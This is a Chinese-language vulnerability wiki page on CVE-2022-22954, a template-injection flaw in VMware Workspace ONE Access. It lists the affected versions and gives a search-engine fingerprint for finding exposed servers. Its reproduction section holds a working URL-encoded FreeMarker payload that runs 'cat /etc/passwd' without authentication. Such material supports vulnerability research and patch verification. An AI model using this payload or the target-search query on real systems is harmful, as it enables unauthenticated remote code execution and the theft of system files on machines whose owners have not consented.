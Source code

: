 # VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954

## 漏洞描述

VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。

## 漏洞影响

<a-checkbox checked>VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）</a-checkbox></br>

<a-checkbox checked>VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）</a-checkbox></br>

<a-checkbox checked>VMware Realize Automation （版本号：7.6）</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="vmware-Workspace-ONE-Access"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1649728317418-bfa9ad4f-9b88-461c-90db-da37bb591b19.png)

验证POC

```php
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
```

![img](../../../.vuepress/public/img/1649728372163-e5da4186-4042-4cb5-a4ad-66580ff6af49.png)